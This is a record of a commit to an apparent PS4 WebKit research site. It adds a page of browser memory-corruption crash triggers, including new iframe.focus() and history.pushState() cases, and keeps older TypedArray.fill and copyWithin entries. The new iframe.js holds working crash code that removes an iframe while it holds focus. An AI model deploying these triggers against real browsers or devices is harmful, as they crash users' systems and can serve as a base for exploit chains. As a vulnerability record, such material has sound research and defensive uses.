

Before and after one commit to OmegaXIV/PS4-WebKit, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
New crashes ( Both of them lead to -enomem screen )

```diff
--- a/index.html
+++ b/index.html
@@ -5,6 +5,7 @@
         <link rel="stylesheet" type="text/css" href="css/main.css">
         <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
         <script type="text/javascript" src="js/utils.js"></script>
+        <script type="text/javascript" src="js/iframe.js"></script>
         <script type="text/javascript">
         function LoadPage()
         {
@@ -18,6 +19,14 @@
         <hr>
         <div align="center" class="box-container">
         <div class="box">
+        <h2>JS::iframe.focus() Memory Corruption</h2>
+        <div align="center"><button onclick="run()">Crash</button></div>
+        </div>
+        <div class="box">
+        <h2>JS::history.pushState() Memory Corruption</h2>
+        <div align="center"><input style="font-size:15px" type='button' value='Launch' onclick='window.location.replace("pushState().html");' /></div>
+        </div>
+        <div class="box">
         <h2>JS::TypedArray.fill() Memory Corruption</h2>
         <!-- WebKit - TypedArray.fill Memory Corruption -->
         <!-- https://www.exploit-db.com/exploits/40183/ -->
@@ -30,5 +39,6 @@
         <div align="center"><input style="font-size:15px" type='button' value='Launch' onclick='window.location.replace("copyWithin().html");' /></div>
         </div>
         </div>
+        <div align="center"><iframe align="center"></iframe></div>
     </body>
 </html>
--- /dev/null
+++ b/js/iframe.js
@@ -0,0 +1,12 @@
+function run()
+      {
+        var iframe = document.getElementsByTagName('iframe')[0];
+        iframe.contentDocument.documentElement.contentEditable = true;
+
+        iframe.contentDocument.documentElement.addEventListener('focusout', function () {
+            iframe.parentNode.removeChild(iframe);
+        }, false);
+
+        iframe.contentDocument.documentElement.focus();
+        document.addEventListener('DOMContentLoaded', run);
+      }
--- a/js/utils.js
+++ b/js/utils.js
@@ -1,4 +1,5 @@
-function GetUserAgent() {
+function GetUserAgent()
+{
 	var s = new Date().toTimeString() + "<br>";
 	s += navigator.userAgent + "<br/>";
 	s += navigator.appName + " (" + navigator.platform + ")<br><br>";
```
Also changed, not shown: pushState().html (added, +19 -0 lines).
